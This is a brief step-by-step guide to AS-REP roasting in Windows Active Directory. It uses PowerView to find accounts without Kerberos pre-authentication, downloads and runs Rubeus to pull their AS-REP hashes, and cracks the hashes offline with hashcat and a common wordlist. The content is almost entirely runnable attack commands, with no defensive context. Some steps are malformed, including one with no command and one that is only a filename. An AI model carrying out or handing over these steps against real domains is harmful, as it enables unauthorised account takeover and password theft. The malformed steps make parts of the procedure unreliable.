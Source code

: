 ```yaml
---
legal-banner: true
---
```


### **Using PowerView to Enumerate Accounts**

1. Import the PowerView module:  
   ```powershell
   Import-Module .\PowerView.ps1
   ```

2. Find users with the "Do not require Kerberos preauthentication" flag:  
   ```powershell
   Get-DomainUser -PreAuthNotRequired
   ```

3. Request AS-REP for targeted users.Once you have identified vulnerable accounts, request the AS-REP.  

4. Download Rubeus from the GitHub releases page:  
   ```powershell
   Invoke-WebRequest -Uri "https://github.com/GhostPack/Rubeus/releases/download/v1.5.0/Rubeus.zip" -OutFile "Rubeus.zip"
   ```

5. Unzip the downloaded file to a directory of your choice:  
   ```powershell
   Expand-Archive -Path "Rubeus.zip" -DestinationPath ".\Rubeus"
   ```

6. Request AS-REP hashes with Rubeus:  
   ```powershell
   .\Rubeus.exe asreproast
   ```

7. Save the AS-REP hashes to a file:  
   ```powershell
   asrep_hashes.txt
   ```

8. Crack the AS-REP hashes using Hashcat with a wordlist (e.g., `rockyou.txt`):  
   ```bash
   hashcat -m 18200 -a 0 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
   ```
